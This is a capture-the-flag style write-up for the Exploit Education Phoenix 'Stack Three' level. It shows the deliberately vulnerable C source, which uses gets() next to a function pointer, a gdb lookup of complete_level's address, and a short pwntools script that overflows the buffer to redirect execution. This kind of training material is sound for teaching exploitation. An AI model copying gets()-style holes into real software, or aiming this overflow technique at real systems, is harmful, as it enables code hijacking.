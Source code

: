 ```yaml
---
title: " Exploit Education | Phoenix | Stack Three"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

The goal of this challenge if to overwrite the value of **fp**  which is a function pointer to point to **complete_level** function.

```
$ gdb -q /opt/phoenix/amd64/stack-three
Reading symbols from /opt/phoenix/amd64/stack-three...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40069d <complete_level>
```

Now that we know the address of **complete_level** function is **0x40069d**, we can now build our exploit.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x40069d)

print(buff)
```

 ```
$ python solve.py | /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
 ```

